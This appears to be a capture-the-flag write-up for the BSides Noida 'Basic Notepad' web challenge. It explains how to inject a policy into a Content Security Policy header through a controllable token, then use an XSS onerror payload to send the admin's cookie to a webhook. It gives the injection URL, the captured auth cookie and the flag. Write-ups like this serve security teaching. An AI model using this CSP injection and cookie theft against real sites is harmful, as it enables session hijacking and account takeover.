


# BSides Noida CTF - Basic Notepad (24 solves)

> Create a note and share with admin :eyes:
Note : Bruteforce is not required.

**Category**: web

**Given**: 
- Website

**Requirements**: N/A

**Solution Files**: N/A

**TL;DR**: Inject policy into Content Security Policy (CSP) header, perform XSS to exfiltrate admin cookies.

### Overview
TODO

### Exploit

Create a random account and log in.


Create image tag with fake src so onerror is called:
```html

```

Pressing review and looking at Devtools shows that the GET request CSP header:

```
content-security-policy
	script-src 'none'; object-src 'none'; base-uri 'none'; script-src-elem 'none'; report-uri /report/THETOKEN
```

```
http://ctf.notepad1.bsidesnoida.in/review?msg=THEMESSAGEINBASE64token=THETOKEN
```

The token that we can control appears in the CSP header at the end! We can inject arbitrary policies by changing token:

```
http://ctf.notepad1.bsidesnoida.in/review?msg=THEMESSAGEINBASE64&token=abcd;script-src-attr%20*%20%27unsafe-inline%27
```

Reviewing & submitting to admin, we get a request hit on webhook, with an auth cookie in the query string:
`auth=YWRtaW46djNyeTUzY3IzdFA0c3N3MHJkZGRk`

Using a cookie editor and changing the auth cookie to the admin's, we get the flag.



**Flag**: BSNoida{s0me_b4s1c_CSP_1nj3ct10n}